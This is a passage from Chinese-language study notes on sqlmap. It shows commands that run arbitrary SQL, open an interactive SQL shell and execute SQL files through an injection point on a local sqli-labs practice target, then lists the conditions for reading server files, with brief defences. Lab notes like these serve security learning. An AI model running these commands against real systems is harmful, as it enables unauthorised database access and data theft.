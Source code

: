 ```

<img src="../../images/8-26-morning/sqlmap参数杂项.png" alt="sqlmap参数杂项" style="zoom:67%;" />

##### d. 执行sql语句

* `select @@datadir`输出mysql的data数据存放路径；`select @@secure_file_priv`输出该参数内容

###### ①--sql-query

* 直接**执行指定的sql语句**

```
sqlmap -u [url] --sql-query="sql语句"

python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-1/?id=1" --sql-query="select version()"
```

###### ②--sql-shell

* 直接获得*交互式的SQL**命令shell*** (用于执行update、delete、drop、alert等语句)
* **执行的语句与注入点的类型有关**
* 输入***X或者Q***退出交互命令行

```
sqlmap -u [URL] --sql-shell

python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-1/?id=1" --sql-shell
```

###### ③--sql-file

* 直接执行sql文件中的语句

```
sqlmap -u [URL] --sql-file=sql文件

python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-1/?id=1" --sql-file="D:\NetTools\sqlmap\sql_file.sql"

sql_file.sql内容：
select version();
select @@datadir;	//输出mysql存放数据的路径
```

#### (4). 文件操作

* 危害
  * 存在SQL注入漏洞
  * **DBA权限**
  * 可以进行文件**读写操作**
  * 知道**绝对路径**
* 防御
  * 输入时对敏感语句过滤
  * my.ini中配置secure_file_priv=null

##### a. 读文件

###### ①满足条件

1. **secure_file_priv**要么禁用，要么设置了路径
2. mysql有对某个**目录读写**的权限
3. 知道**绝对路径**
4. 文件**必须在服务器上存在**
5. max_allowed_packed     //读写文件最大的字节数

###### ①load_file()
```